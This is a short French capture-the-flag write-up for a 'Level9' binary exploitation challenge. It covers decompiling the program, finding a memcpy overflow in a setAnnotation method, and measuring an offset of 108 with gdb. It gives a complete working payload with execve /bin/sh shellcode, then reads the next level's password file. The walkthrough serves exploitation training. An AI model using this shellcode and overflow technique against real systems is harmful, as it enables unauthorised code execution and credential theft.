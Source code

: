 # Level9
---

###### Étape 1 : -- Décompiler le programme --

En décompilant le programme avec Dogbolt ou Ghidra, on voit dans le programme une class N et la function Main : 

On vois dans la class N une fonction __setAnnotation__ qui contient la fonction __memcpy__

C'est cette fonction que l'on vas casser pour exec un shell code 

en faisant crash le programe avec gdb on obtient un offset de ==108==.

on trouve aussi l'addresse du premier parametre de memcpy -> ==0x804a00c==


###### Étape 3: -- Execution --

Avec offset, et l'addresses , on crée un one-liner python pour executer un payload pour lire le .pass du prochain level.

Contruction du payload: 
> ./binary $(python - c 'print [address] + [shellcode] + "A" * [offset - len(shellcode) -len(address)] + "[address]') 

Payload final :
```bash
./level9 $(python -c 'print "\x0c\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 83 + "\x0c\xa0\x04\x08"')
```

Dans le terminal on execute la commande suivante pour récupérer le password du bonus0:

```bash
cat /home/user/bonus0/.pass
```
